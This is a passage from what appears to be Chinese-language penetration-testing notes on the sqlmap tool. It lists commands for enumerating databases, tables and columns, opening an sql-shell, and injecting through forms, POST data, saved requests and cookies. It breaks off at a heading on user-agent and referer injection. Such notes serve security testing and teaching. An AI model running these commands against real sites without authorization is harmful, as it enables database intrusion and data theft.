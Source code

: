 2. 找到注入点

3. 查库名

   ```python
   python sqlmap.py -u "注入点" --current-db
   ```

4. 指定库名查表名

   ```python
   python sqlmap.py -u "注入点" -D 库名 --tables
   ```

5. 指定库名、表名查列名

   ```python
   python sqlmap.py -u "注入点" -D 库名 -T 表名 --columns
   ```

6. 获取sql-shell

   ```python
   python sqlmap.py -u "注入点" --sql-shell
   ```

7. 查记录

   获取到sql-shell后,在shell中执行select语句即可查询

   注意:sql-shell只能执行select语句

### SQLMap表单注入

```python
python sqlmap.py -u "注入点" --from --batch  即可自动注入
```

### SQLMap对url进行POST注入

```python
python sqlmap.py -u "注入点" --data "变量名1=值1&变量名2=值2..."    #变量名即表单中输入框的name属性值    多个变量使用&符号分隔
```

### SQLMap  http请求包注入

```python
sqlmap.py -r request.txt
```



### SQLMap头部注入

#### cookie注入

```
python sqlmap.py -u "注入点" --level 2 --cookie "xx=xx"
```

#### user-agent、referer注入
